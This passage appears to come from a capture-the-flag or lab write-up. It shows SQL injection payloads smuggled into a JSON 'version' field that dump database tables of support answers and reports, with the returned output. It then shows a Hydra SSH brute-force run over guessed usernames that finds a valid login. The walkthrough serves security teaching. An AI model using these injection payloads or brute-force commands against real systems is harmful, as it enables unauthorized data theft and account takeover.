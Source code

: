 ```bash
data = {"version": '0.0.0" UNION Select group_concat(id || " - " || answered_by || " - " || answer, "\\n"), 2, 3, 4 From answers -- -'}

{"message": {"id": "1 - admin - Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller\\n2 - admin - Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller", "version": 2, "released_date": 3, "downloads": 4}}


data = {"version": '0.0.0" UNION Select group_concat(id || " - " || key || " - " || value, "\\n"), 2, 3, 4 From info -- -'}

{"message": {"id": "1 - downloads - 1000\\n2 - convertions - 2289", "version": 2, "released_date": 3, "downloads": 4}}


data = {"version": '0.0.0" UNION Select group_concat(id || " - " || reporter_name || " - " || " - " || subject || " - " || description, "\\n"), 2, 3, 4 From reports -- -'}

{"message": {"id": "1 - Jason -  - Accept JPEG files - Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?\\n2 - Mike -  - Converting non-ascii text - When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this.", "version": 2, "released_date": 3, "downloads": 4}}
```

I had a few potential usernames to use with the password I cracked. I added them to a file and use Hydra to try them in SSH.


```bash
$ cat users.txt
jason
admin
json
thomaskeller
thomas
tkeller
thomask
mike

$ hydra -L users.txt -P password.txt target ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-30 09:11:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:9/p:1), ~1 try per task
[DATA] attacking ssh://target:22/
[22][ssh] host: target   login: tkeller   password: REDACTED
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-30 09:11:54
```
